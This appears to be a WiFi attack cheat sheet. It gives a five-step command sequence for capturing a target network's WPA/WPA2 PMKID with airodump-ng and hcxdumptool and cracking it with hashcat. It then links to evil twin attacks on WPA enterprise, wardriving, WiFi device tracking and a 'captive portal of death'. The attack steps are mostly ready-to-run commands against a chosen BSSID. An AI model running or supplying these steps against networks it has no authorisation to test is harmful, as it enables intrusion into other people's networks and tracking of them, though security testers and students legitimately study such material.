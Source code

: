 # WPA/WPA2 PMKID

STEP 1:
https://github.com/ZerBea/hcxdumptool
https://github.com/aircrack-ng/aircrack-ng

STEP 2: Find target BSSID:
airodump-ng <int>

STEP 3: Add BSSID in ‘bssid.txt’ and use ‘hcxdumptool’:
hcxdumptool -i <int> --filterlist=bssid.txt --filermode=2 --enable_status=2 -o pmkid.pcap

STEP 4: Extract PMKID into hashcat format for cracking:
(link: https://github.com/ZerBea/hcxtools) github.com/ZerBea/hcxtools
hcxpcaptool -z wpa2_pmkid_hash.txt pmkid.pcap

STEP 5: Crack:
hashcat -a 0 -m 16800 -w 4 wpa2_pmkid_hash.txt dict.txt

> https://mobile.twitter.com/netmux/status/1097908867374215168

# WPA enterprise (evil tween attack)

- https://pwn.no0.be/exploitation/wifi/wpa_enterprise/
- https://rootsh3ll.com/evil-twin-attack/

# WiFi Wardriving with Android

- WiGLE WiFi Wardriving: https://play.google.com/store/apps/details?id=net.wigle.wigleandroid&hl=en

# Tracking

- Tracking All the WiFi Things: https://osintcurio.us/2019/01/15/tracking-all-the-wifi-things/

# References

  - How to Make a Captive Portal of Death: https://medium.com/bugbountywriteup/how-to-make-a-captive-portal-of-death-48e82a1d81a
